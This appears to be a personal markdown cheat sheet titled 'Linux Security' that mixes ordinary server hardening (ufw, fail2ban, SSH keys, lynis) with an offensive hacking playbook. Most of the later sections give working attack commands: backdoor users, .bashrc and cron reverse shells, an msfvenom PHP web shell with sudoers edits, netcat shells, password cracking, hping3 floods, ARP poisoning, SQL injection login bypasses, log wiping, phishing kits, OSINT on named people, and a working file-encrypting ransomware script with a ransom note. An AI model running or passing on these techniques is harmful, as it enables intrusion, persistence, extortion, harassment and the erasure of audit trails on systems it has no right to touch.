

## Linux Security : 🌸

Linux servers are secure but desktops are vulnerable, some good rules for linux security hardening is essential. I made a list of security situations and application areas along with possible solutions for security of the linux system. <br />

Install a firewall `$ sudo install ufw` <br />

```bash
 $ sudo ufw limit 22/tcp 
 $ sudo ufw allow 80/tcp 
 $ sudo ufw allow 443/tcp
 $ sudo ufw default deny incoming 
 $ sudo ufw default allow outgoing 
 $ sudo ufw enable 
 $ sudo ufw status
```
Install Fail2ban (IDS): <br />
` $ sudo apt install fail2ban` and all config files are in `/etc/fai2ban`<br />
Main files: `/etc/fail2ban/fail2ban.conf` and `/etc/fail2ban/jail.conf` <br />
Config : `/etc/fail2ban/jail.local`

```bash
[DEFAULT]
ignoreip = 127.0.0.1/8 ::1
bantime = 3600
findtime = 600
maxretry = 5

[sshd]
enabled = true

```

### Uncover illegal access in linux systems:

```bash
    $ who
    $ w
    $ netstat -natu | grep 'ESTABLISHED'
    $ netstat -natu | grep 'LISTEN' # (anything listening to my computer or vice versa)
    $ last # (all connections)
    $ users
    $ nano /etc/passwd
    $ history # ( $su username )
    $ less /home/username/.bash_history
    $ iftop -i wlan0 # ( $ip a )
    $ btop
    $ lsof 
    $ apt install chkrootkit # (rootkit analyzer)
    $ chkrootkit
```

### Anonymize Your Traffic With Proxychains & Tor

```bash
$ sudo apt install proxychains
$ sudo apt install tor # (9050 port for tor service - not the browser but tor service)
$ sudo vim /etc/proxychains.conf
$ sudo systemctl enable tor.service
$ sudo systemctl start tor.service
$ proxychains firefox dnsleak.com
```

### Defend Your Ubuntu System Against Network Attacks :

Goal is to minimize the number of attack surface with ref - [blog](https://null-byte.wonderhowto.com/how-to/locking-down-linux-using-ubuntu-as-your-primary-os-part-2-network-attack-defense-0185709/)

```bash
$ sudo systemctl disable cups-browsed # (cut down port listening)
$ sudo systemctl disable avahi-daemon # (disable apple device daemons)
$ sudo ufw enable # ( and apply the rules)
$ sudo ufw default deny incoming 
$ sudo ufw default deny forwarding 
$ sudo ufw default deny outgoing
$ ifconfig # (check network adapter name <interface> and Cloudflare DNS 1.1.1.1)
$ sudo ufw allow out on <interface> to 1.1.1.1 proto udp port 53 comment 'allow DNS on <interface>'
$ sudo ufw allow out on <interface> to any proto tcp port 80 comment 'allow HTTP on <interface>'
$ sudo ufw allow out on <interface> to any proto tcp port 443 comment 'allow HTTPS on <interface>'
set default DNS to 1.1.1.1
$ sudo ufw default allow outgoing # (default firewall rules)
$ tail -f /var/log/ufw.log
```


 ### Maintain remote access / backdoor to remote systems: 
<table style="width:100%" >


<tr>
<th>command</th>
<th>description <br /></th>
<th>reference <br /></th>
</tr>

<tr>
<th>maintain access</th>
<td>generate ssh key & maintain backdoor <br /></td>
<td>

```bash
$ ssh-keygen -t rsa 
> /root/.ssh/godseye # (name it godseye and put it in root) 
§ ls 
$ cat godseye 
$ cat godseye.pub 
$ ssh-copy-id -i godseye.pub user@ip 
$ ssh -i godseye user@ip 
$ sudo su 
$ cd .ssh/ 
$ ls 
$ cat authorized_keys 
```
</tr>


<tr>
<th>ssh configuration</th>
<td>modify ssh configuration<br /></td>
<td>

```bash
$ nano /etc/ssh/sshd_config # (RSAAuthentication should be yes to login without password)
```
</tr>

<tr>
<th>adding a sneaky user</th>
<td>Adding a sneaky user in remote<br /></td>

<td>

```bash
$ sudo su
$ cd .. # (go to home folder)
$ ls
$ useradd -m -s /bin/bash ftp
$ usermod -aG sudo ftp
$ passwd ftp
$ ssh ftp@ip
```
</td>
</tr>

<tr>
<th>bashrc profile</th>
<td>modify ssh configuration<br /></td>
<td>$ ssh ftp@ip<br />

```bash
$ cd .. # (go to home folder)
$ nano user/.bashrc
$ sh -i >& /dev/tcp/192.168.177.45/9000 0>&1 # (put in a sneaky command)
$ nc -lvp 9000 # (from local system and anytime a user logs into remote we get an ip)
```
</td>
</tr>

<tr>
<th>cron tab in remote machine</th>
<td>getting a cron tab in remote machine to get a backdoor<br /></td>
<td>

```bash
$ sudo su # (in remote)
$ crontab -e # (type '2' for nano)
$ ***** /bin/bash -c /bin/bash -i >& /dev/tcp/192.168.177.45/9000 0>&1 # (add this cronjob)
$ nc -nlvp 9000 # (in local use netcat and we get a connection as root #)
```

</td>
</tr>

<tr>
<th>use metasploit to get persistence in a system</th>
<td>webshell using msfvenom<br /></td>
<td>

```bash
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.177.45 LPORT=9001 -e php/base64 -f raw shell.php # (create a web shell)
$ ls 
$ nano shell.php 
$ create php code and $ cat shell.php # (copy the code)
$ sudo su # (in remote) 
$ cd /var/www/html/ 
$ ls
$ nano backup.php # (paste the code)
$ nano /etc/sudoers # (in USER PRIVILEDGES add 'www-data ALL=(ALL:ALL) ALL for web server) 
$ passwd www-data # (www-data user got access)
$ msfconsole # (in local) 
> use  multi/handler <br />
> set payload php/meterpreter/reverse_tcp <br />
> set lhost 192.168.177.45 <br />
> set lport 9001 <br />
> run <br />
$ curl 192.168.177.48/backup.php # (from local shell)

We get a meterpreter shell to remote host:<
> whoami 
```
</td>
</tr>

</table>

### Ways to secure a linux server:


<table style="width:100%" >

<tr>
<th>command</th>
<th>description <br /></th>
<th>reference <br /></th>
</tr>

<tr>
<th>Enable Automatic Updates</th>
<td>Automatic updates and security patches of applications<br /></td>
<td>

```bash
$ apt update
$ apt dist-upgrade
$ apt install unattended-upgrades
$ dpkg-reconfigure --priority=low unattended-upgrades # ( hit YES) 
```
</td>
</tr>

<tr>
<th>Limiting User Account</th>
<td>Avoid logging in as root<br /></td>
<td>

```bash
$ adduser skk
$ usermod -aG sudo skk # (add skk to sudo group)
$ logout
$ ssh skk@ip 
skk$ sudo adduser saikia # (we just got sudo power via skk) 
```
</td>
</tr>

<tr>
<th>Authentication Key Pair over Passwords</th>
<td>Public Key and Private Key<br /></td>
<td>

```bash
$ mkdir ~/.ssh && chmod 700 ~/.ssh
$ ssh-keygen -b 4096 # (generating the public private key pair in localhost)
$ cd .ssh
$ ls 
$ scp $env:USERPROFILE/.ssh/id_rsa.pub user@ip:~/.ssh/authorized_keys # (Windows only) 
$ ssh-copy-id user@ip
$  scp ~/.ssh/id_rsa.pub user@ip:~/.ssh/authorized_keys # (linux only) 
```
</td>
</tr>

<tr>
<th>Lockdown Logins</th>
<td>no passwords across the board<br /></td>
<td>

```bash
$ sudo nano /etc/ssh/sshd_config 
$ # change port no in the ssh config file. port 22 is used by ssh by default and we can change that by configuring the config file : remove '#'(uncomment) and in config file: 
Port 717
AddressFamily inet
PermitRootLogin no 
PasswordAuthentication no ) 
$ sudo systemctl restart sshd 
$ ssh user@ip -p 717 # (I can login via the new port)
```
</td>
</tr>

<tr>
<th>Firewall it up!</th>
<td>Check ports and configure firewall<br /></td>
<td>

```bash
$ sudo ss -tupln
$ ufw # (uncomplicated firewall)
$ sudo apt install ufw 
$ sudo ufw status 
$ sudo ufw allow 717 # (update firewall for custom port) 
$ sudo ufw enable 
$ sudo apt install apache2 
$ sudo systemctl start apache2 
$ sudo ss -tupln
$ ping ip -t # (to check if server is up) 
$ sudo nano /etc/ufw/before.rules # (block ping to protect servers) 
> edit & add in: 
> #ok icmp codes for INPUT 
> A ufw-before-input -p icmp --icmp-type echo-request -j DROP
$ sudo ufw reload
$ sudo reboot # (server is invisible to pings now)
```
</td>
</tr>
</table>

### OSINT (Information Gathering) from Social Media:


<table style="width:100%" >

<tr>
<th>command</th>
<th>description <br /></th>
<th>reference <br /></th>
</tr>

<tr>
<th>Twitter OSINT</th>
<td>twint (twitter intelligence)<br /></td>
<td>

```bash
$ apt install git 
$ apt install python3 
$ apt install python3-pip
$ git clone --depth=1 https://github.com/twintproject/twint.git 
$ cd twint # (twint can also be imported in python)<br />
$ pip3 install . -r requirements.txt
$ twint -u florist_notes
$ twint -h # (list all switches you can use)
$ twint -u florist_notes --limit 20 # (last 20 tweets)
$ twint -u florist_notes -s "anime" # (search through tweets)
$ twint -u florist_notes -s "book" -o book.json --json # (output to a file)
$ twint -u 3blue1brown --min-likes 100 
$ twint -u 3blue1brown --since 2021-04-28 
$ twint -u 3blue1brown --year 2018 
$ twint -u 3blue1brown --year 2018 --images 
$ twint -s coffee --near hamburg --Since 2021-04-21 --min-likes 15 # (search tweets with switches)
$ twint -s "sun" --since 2021-04-28 -g="53.5488, 9.9872, 20km" # (lat lon radius) 
```
In Python:<br />

```python
import twint

search = input("What are you searching for?")
city = input("Where ?")

c = twint.Config()
c.Search = search
c.Near = city
c.Limit = 20
c.Populer_tweets = True

twint.run.Search(c)
```

who ever tweets at @florist_notes today:

```python
import twint
from datetime import datetime
today = datetime.now().strftime('%Y-%m-%d')
c = twint.Config()
c.To = "florist_notes"
c.Since = today
c.Hide_output = True
c.Store_object = True

twint.run.Search(c)

tweets = twint.output.tweets_list

mypeople = []

for tweet in tweets:
    mypeople.append(('{}'.format(tweet.username)))

print(mypeople)

for user in mypeople:
    c = twint.Config()
    c.Username = user
    c.Limit = 20
    twint.run.Search(c)

```
<br /></td>
</tr>

<tr>
<th>Instagram OS!NT</th>
<td>OS!NT on Instagram account<br /></td>
<td>

```bash
$ git clone https://github.com/Datalux/Osintgram 
$ cd Osintgram 
$ pip3 install -r requirements.txt
$ mkdir config 
$ cd config 
$ echo "username" > username.conf # (dummy username acc)
$ echo "supersecretpassword" > pw.conf
$ echo "{}" > settings.json 
 
 # In Osintgram $ :

$ python3 main.py medialab 

# We will be in Osintgram console : 

 $ list 
 $ stories # (download stories)
 $ xdg-open sample.jpg # (image viewer) 
 $ fwingsemail # (get emails for users followed by the target) 
 $ addrs # (get all registered addresses for target photos) 
 ```
<br /></td>
</tr>

<tr>
<th>NMap for network vulnerabilities</th>
<td>Network vulnerabilities with nmap and nmap scripting engine - 

[NSE](https://nmap.org/book/man-nse.html). Can change speed of scanning to avoid detection.<br /></td>
<td>

```bash
$ nmap -sP 10.7.1.0/24 # (number of hosts are up)
$ sudo nmap -sT -p 80, 443 10.7.1.0/24 # (check for open ports, usually 80 or 443 ports are oprn in web server, T = TCP Connect, <ids in firewall can detect this 3 way handshake>) 
$ sudo nmap -sS -p 80, 443 10.7.1.0/24 # (S = stealthy, to avoid intrusion detection (IDS), no complete 3 way handshake) 
$ man nmap 
$ sudo nmap -O 10.7.1.226 # (OS detection)
$ sudo nmap -A 10.7.1.226 # (detailed)
$ sudo nmap -sS -D  10.7.1.80 10.7.1.226 # (will put a decoy ip address - cover your tracks) 
$ sudo nmap --script vuln 10.7.1.226 # (find vulnerabilities)
```
<br /></td>
</tr>

<tr>
<th>find info on phone numbers with PhoneInfoga</th>
<td>Find info on phone numbers<br /></td>
<td>

```bash
$ docker pull sundowndev/phoneinfoga:latest 
$ docker run -it sundowndev/phoneinfoga scan -n 13526006900 
$ docker run -it -p 8080:8080 sundowndev/phoneinfoga serve -p 8080 # (to serve web UI at port 8080) 
```
<br /></td>
</tr>

<tr>
<th>find social media accounts with Sherlock</th>
<td>sherlock<br /></td>
<td>

```bash
$ git clone https://github.com/sherlock-project/sherlock.git 
$ cd sherlock 
$ python3 -m pip install -r requirements.txt 
$ python3 sherlock --help 
$ python3 sherlock 3blue1brown 
$ python3 sherlock --timeout 1 3blue1brown # (creates a text file of results in dir) 
```
<br /></td>
</tr>

<tr>
<th>Hide yourself</th>
<td>hide yourself with ProxyChains<br /></td>
<td>

```bash
$ locate proxychains 
$ sudo vi /etc/proxychains.conf # (uncomment 'dynamic_chain' for dynamic proxies, change socks4 ip port or https ip port) 
$ proxychains firefox google.com
$ proxychains nmap -sT -p 80,443 217.160.0.69 
```
<br /></td>
</tr>

<tr>
<th>hacking with gsearch</th>
<td>Hacking with Google Search - dorking<br /></td>
<td>
> frenchpress site: starbucks.com <br />
> site:starbucks.com inurl:admin <br />
> site:starbucks.com intext:admin <br />
> site:starbucks intitle: login <br />
> site:starbucks.com filetype:pdf <br /><br />

Google Hacking Database : [GHD](https://www.exploit-db.com/google-hacking-database) <br />

```bash
$ theHarvester -d starbucks.com -b google # (find emails and respective ip addresses)<br />
$ theHarvester -d starbucks.com -b netcraft # (lot more information)
```
<br />
<br /></td>
</tr>


</table>

### Hacking with Linux:


<table style="width:100%" >

<tr>
<th>command</th>
<th>description <br /></th>
<th>reference <br /></th>
</tr>

<tr>
<th>Hacking password with Hashcat</th>
<td>crack with hydra and hashcat<br /></td>
<td>

```bash
$ cd /usr/share/wordlists 
$ sudo gzip -d rockyou.txt.gz (14 mil passwords) 
$ sudo hydra -l "username" -P wordlist.txt # (dictionary brute force attack - RockYou.txt) 
> 45.79.49.74 ssh # (firewalls might block this)
$ cat wordlist.txt # (my custom wordlist) 
$ cat /etc/shadow # (hashes - MD5, SHA 256 , NTLM etc)
$ man hashcat 
$ sudo hashcat -a 0 -m 1000 -o crackedpass.txt 
> hashes.txt wordlist.txt # (1000 for NTLM - Windows based attacks)<br />
$ sudo hashcat -a 0 -m 1000 -o crackpass.txt 
"1CAGHKLGSGIUGS" wordlist.txt 
$ sudo cat crackpass.txt # (output / result)
```
<br /></td>
</tr>

<tr>
<th>Hide files on target machines</th>
<td>Steganography - hide files in windows and linux systems<br /></td>
<td>

Alternate Data Streams to hide file inside another file:<br />

```bash
$ mkdir myhiddenstuff
$ cd  myhiddenstuff
$ notepad supersecretfile.txt
$ notepad nothingtoseehere.txt 
$ type supersecretfile.txt > nothingtoseehere.txt:supersecretfile.txt # (this will hide supersecretfile.txt inside of nothingtoseehere.txt  with ADS)
$ notepad nothingtoseehere.txt:supersecretfile.txt 
$ dir /r
$ attrib +h filename.txt # (make files hidden) 
$ sudo apt install steghide -y 
$ steghide embed -cf image.jpg -ef file.txt # (to hide .txt inside .jpg)
$ steghide extract -sf image.jpg 
```
<br /></td>
</tr>

<tr>
<th>DDoS from dark web</th>
<td>Distributed Denial of service & botnet<br /></td>
<td>

[tor browser](https://www.torproject.org/download/) <br />
[saphyra](https://securityintelligence.com/dissecting-hacktivists-ddos-tool-saphyra-revealed/) : http flood attack : HTTP get<br />
[low orbit ion cannon](https://en.wikipedia.org/wiki/Low_Orbit_Ion_Cannon); [byob](https://github.com/malwaredllc/byob)<br />
All the DDoS scripts from [H1R0GH057/Anonymous](https://github.com/H1R0GH057/Anonymous) are also in scripts/security/[ddos](../scripts/security/ddos/)<br />

```bash
$ sudo hping3 -1 --flood 10.7.1.50 # (ping as dos)
```

ICMP Flood / ping of death : but ICMP or ping response can be disabled.<br />

```bash
$ sudo hping3 -d 200 -p 80 -S --flood 10.7.1.50 (from multiple servers)
$ python saphyra.py http://10.7.1.50 
```
<br /></td>
</tr>

<tr>
<th>SNiFF network traffic (MiTM attack)</th>
<td>any device network traffic<br /></td>
<td>
use wireshark <br />
ARP Poisoning with ettercap: (Man in the middle and then wireshark)<br />

```bash
$ apt install wireshark 
$ apt install nmap 
$ apt install ettercap-text-only 
$ sudo nmap -sn 10.0.0.0/24 # (start scanning the network for ip addresses of devices) 
$ sudo ettercap -T -S i wlan0 -M arp:remote /10.0.0.1// /10.0.0.129// # (S = SSL, 10.0.0.1 is router and 10.0.0.129 is the target, then use wireshark to sniff ) 
In wireshark: ip.addr == 10.0.0.129 
ip.addr == 10.0.0.129 && http # (to filter no SSL cert destination ip from target device)
```
Save wireshark sniffs as pcaps. Avoid http and telnet. 


<br /></td>
</tr>

<tr>
<th>Build a Hacking Lab</th>
<td>Safe and secure environment<br /></td>
<td>

> Hacking Machine - Kali <br />
> Vulnerable Webapp machine - VULNHUB :
 
 [Mr Robot VULNHUB OVA](https://www.vulnhub.com/entry/mr-robot-1,151/) <br />
> Modify network settings <br />
> DHCP server <br />
> cd /Program Files/Oracle/VirtualBox (In windoows)<br />
>  >vboxmanage dhcpserver add --network=networkname --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable<br />
<br /></td>
</tr>


<tr>
<th>Haunt a Computer Using SSH</th>
<td>haunt via ssh<br /></td>
<td>

```bash
$ export DISPLAY=:0.0 # (let DISPLAY of remote be open)
$ xterm 
$ sudo modprobe pcspkrc # (play sound in speaker) 
$ say "404 : hacked !" 
$ espeak "time is running :)"
$ sudo apt install beep 
$ beep -f 4000 -D 500 -l 100 -r 10 # (beep warning)
$ crontab -l 
$ crontab -e 
 uncomment  * * * * * beep .... 
$ sudo xterm -maximize -e sudo tcpdump 
$ for i in {1..10}; do sudo xterm -maximize -e sudo tcpdump; done #(create a `$tcpdump` window reappearing 10 times on being closed.) 
$ cat warning.txt (warnings)
xterm -maximized -fullscreen -fa 'Monospace' -fs 19.31 -e whiptail --title "CRITICAL: ACTION CANNOT BE UNDONE" --msgbox "UNAUTHORIZED LOGIN! DATA SAFEGUARD SYSTEM WILL DESTROY THIS TERMINAL IN 10 SECONDS, STAY 30 FEET CLEAR TO AVOID BLAST" --topleft 23 79 
$ for i in {1..10}; do firefox -new-window "hhtp://www.saikia.one/" ; done 
```
<br /></td>
</tr>

<tr>
<th>Clear the Logs & History on Linux Systems to Delete All Traces</th>
<td>clear logs and history<br /></td>
<td>

```bash

$ find / -perm -222 -type d 2>/dev/user (all dir with write permission)
$ mkdir /dev/shm/.secret
$ ls /dev/shm
$ cd /dev/shm/.secret/
$ nano logs.txt
$ rm -rf /dev/shm/.secret
$ cd /var/log/ (all log files)
$ sudo rm auth.log
$ wget https://raw.githubusercontent.com/sundowndev/covermyass/master/covermyass
$ chmod +x covermyass
$ ./covermyass
$ shred --help (delete file data permanently which cannot be recovered)
$ shred -vfzu auth.log ( shred over rm )
$ sudo rm kernel.log ( or edit )
$ cd -vfzu /home/username/.bash_history
$ >.bash_history (it will clear the file)

```
<br /></td>
</tr>

<tr>
<th>Audit & Lock Down Your System</th>
<td>with lynis<br /></td>
<td>

```bash
$ sudo wget 'https://github.com/CISOfy/lynis/archive/master.zip'
$ sudo unzip
$ cd lynis-master
$ sudo chmod +x lynis
$ sudo ./lynis audit system
$ sudo apt-get install clamav
$ sudo clamscan -r / --log=mp/clamav_report.log (complete scan of system - all file)
$ sudo clamscan -ir malware

opensnitch:
$ sudo apt install protobuf-compiler libpcap-dev libnetfilter-queue-dev python3-pip golang git go-dep
$ go get github.com/golang/protobuf/protoc-gen-go (step 3)
$ python3 -m pip install --user grpcio-tools (step 1)
$ go get github.com/evilsocket/opensnitch (step 2)
$ echo 'export GOPATH=$HOME/go' >> ~/.bashrc
$ source ~/.bashrc
$ make
$ sudo make install
$ sudo systemctl enable opensnitchd
system logs:
$ find /var/log/ -type f \( -name "*.log" \) -exec tail -f "$file" {} +

```

<br /></td>
</tr>


<tr>
<th>reverse shells with netcat</th>
<td>how to get remote access to your hacking targets<br /></td>
<td>

```bash
$ nc -lnvp 87 -s source_ip # (l=listening for a connection, n= no dns, only ip; v=verbose, p=port)
```
In the target machine (both machines must have netcat-nc): <br />
```bash
$ nc -e /bin/bash source_ip 87 # (port 87) 
```
We want the above script to be installed in the machine and executed.<br />
In windows: using [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) <br />
(server side) $ stty raw -echo; (stty size; cat) | nc -lvnp 87 -s 69.164.204.158 <br />

(client side) $ command [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)<br />
<br /></td>
</tr>

<tr>
<th>Phishing attacks</th>
<td>

phishing website and emails with [blackeye](https://github.com/An0nUD4Y/blackeye)<br /></td>
<td>

```bash
$ git clone https://github.com/An0nUD4Y/blackeye 
$ sudo ./blackeye.sh # (setup [ngrok](https://ngrok.com/) with auth token )
```
Spear Phishing Attack: use SET (Social Engineering Toolkit):<br />
(put malware - mess host file: DNS Poisoning)

<br /></td>
</tr>


<tr>
<th>put a DARK WEB 🌸 website on a Raspberry Pi!!</th>
<td>host a dark web website<br /></td>
<td>
overlay tor onion relays & routing helps keep anonymity to get to your dark web website, we meet in the middle. <br />
Brave Browser : New Private Window with Tor <br />
Install nginx, tor: <br />

```bash
$ sudo apt install tor 
$ sudo nano /etc/tor/torrc 

# Uncomment HiddenServiceDir and HiddenServicePort 
$ sudo service tor stop 
$ sudo service tor start
$ sudo service tor status 
$ sudo cat /var/lib/tor/hidden_service/hostname # (this is my dark web address) 
$ sudo apt install nginx
$ sudo service nginx start 
$ sudo nano /etc/nginx/nginx.conf 

# Uncomment : server_tokens off; server_name_in_redirect off; 
# just under server_tokens off: write : port_in_redirect off; 

$ sudo service nginx restart 
$ cd /var/www 
$ cd html 
$ ls 
$ sudo nano index.html # (remove the original html) 
# edit the html
$ sudo service nginx restart 
```

<br /></td>
</tr>

<tr>
<th>Hack Web Browser</th>
<td>Hacking Web Browser with BeEF<br /></td>
<td>
$ cat /root/beef.info (copy beef server address and open in browser) <br />
<br /></td>
</tr>

<tr>
<th>SQL Injections</th>
<td>run database against logins<br /></td>
<td>
SELECT * FROM users WHERE username = 'admin' AND password='pass' <br />
<br />
use admin' as username, so username = ' admin' ', if syntax error = SQL Inj vuln <br />
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password='pass' ( first reads AND then OR ) <br /><br />
username : admin' OR '1'='1 ; password: password123 <br />
<br />
username  :  admin'-- <br />
SELECT * FROM users WHERE username ='admin'-- 'AND password='password123' <br />
-- is comment and ignore the rest section after it in SQL injection attacks. <br />
<br /></td>
</tr>

<tr>
<th>create malware</th>
<td>

ransomware, worms, trojan, adware, spyware with [malware showcase](https://github.com/PatrikH0lop/malware_showcase), [MalwareSourceCode](https://github.com/vxunderground/MalwareSourceCode), [theZoo - A Live Malware Repository](https://github.com/ytisf/theZoo), [Malware Database](https://github.com/Endermanch/MalwareDatabase)<br /></td>
<td>

```bash
$ mkdir ransomware 
$ cd ransomware (encrypt the following files)
$ echo "this is a file" > file.txt 
$ echo "leave me alone" > file2.txt 
$ echo "another one" > hey.txt 
$ echo "one more" > pleasedonthurtme.txt 
$ nano ransom.py 
```
<br />

encryption script:<br />
```python
    #!/usr/bin/env python3
    import os
    from cryptography.fernet import Fernet


    files = []

    for file in os.listdir():
        if file == "ransom.py" or file=="thekey.key" or file=="decrypt.py":
            continue
        if os.path.isfile(file):    
            files.append(file) 

    print(files)

    key = Fernet.generate_key()

    with open("thekey.key", "wb") as thekey:
        thekey.write(key)

    for file in files:
        with open(file, "rb") as thefile:
            contents = thefile.read()
        contents_encrypted = Fernet(key).encrypt(contents)
        with open(file, "wb") as thefile:
            thefile.write(contents_encrypted)

    print(key)

```
decryption script:

```python
.
.
.
print(files)

with open("thekey.key", "rb") as key:
    secretkey = key.read()

secretphrase = "coffee"
user_phraase = input("Enter the secret phrase to decrypt\n")

if user_phraase == secretphrase:
    for file in files:
        with open(file, "rb") as thefile:
            contents = thefile.read()
        contents_decrypted = Fernet(secretkey).decrypt(contents)
        with open(file, "wb") as thefile:
            thefile.write(contents_decrypted)
        print("congrats, your files are decrypted")
else:
    print("sorry, wrong secret phrase. you have 17:00 hrs left.")

```

$ git clone https://github.com/PatrikH0lop/malware_showcase <br />
$ pip3 install .r requirements.txt  <br />


<br /></td>
</tr>

</table>


<table style="width:100%" >

<tr>
<th>🌸 topic</th>
<th>video_guide <br /></th>
</tr>

<tr>
<th> SSH Security Essentials</th>
<td>

[reference](https://youtu.be/Ryu3SDPYNb8)
 <br /></td>
</tr>

<tr>
<th>Configuring SUDO Access</th>
<td>

[reference](https://youtu.be/FGRtNvKdtbk)
 <br /></td>
</tr>

<tr>
<th>Securing Apache2</th>
<td>

[reference](https://youtu.be/M1GpRWWRdC8)
 <br /></td>
</tr>

<tr>
<th>Securing Nginx</th>
<td>

[reference](https://youtu.be/-lrSPJTeGhQ)
 <br /></td>
</tr>

<tr>
<th>UFW firewall</th>
<td>

[reference](https://youtu.be/-CzvPjZ9hp8)
 <br /></td>
</tr>

<tr>
<th>Secure phpMyAdmin</th>
<td>

[reference](https://youtu.be/fiWcdtfpSQA)
 <br /></td>
</tr>

<tr>
<th>Apache2 WAF</th>
<td>

[reference](https://youtu.be/MB7nQrlP5Yc)
 <br /></td>
</tr>

<tr>
<th>Nginx WAF</th>
<td>

[reference](https://youtu.be/5eRxOYbaIEI)
 <br /></td>
</tr>

<tr>
<th>Docker Security Essentials</th>
<td>

[reference](https://youtu.be/KINjI1tlo2w)
 <br /></td>
</tr>

<tr>
<th>(Log4Shell) - Exploitation & Mitigation</th>
<td>

[reference](https://youtu.be/lJeAgQQaDEw)
 <br /></td>
</tr>
</table>


## /securitywith_kali :
 </br>
- Wirepacket sniffing with wireshark - [experiments](https://www.udemy.com/course/wireshark-ultimate-hands-on-course/)
- Network analysis with nmap - [experiments](https://www.udemy.com/course/nmap-scan/)
- Exploits with metasploit - [experiments](https://www.udemy.com/course/metasploit-framework-penetration-testing-with-metasploit/)
- Network wifi with aircrack-ng and netcat - [experiments](https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/)
- Analysis with lynis - [experiments](https://youtu.be/FYnrfkkVKD8)
- Browser exploitation with BeEF, Layer 2 with Yersinia, Crack with John-the-Ripper, Forensics with autopsy etc.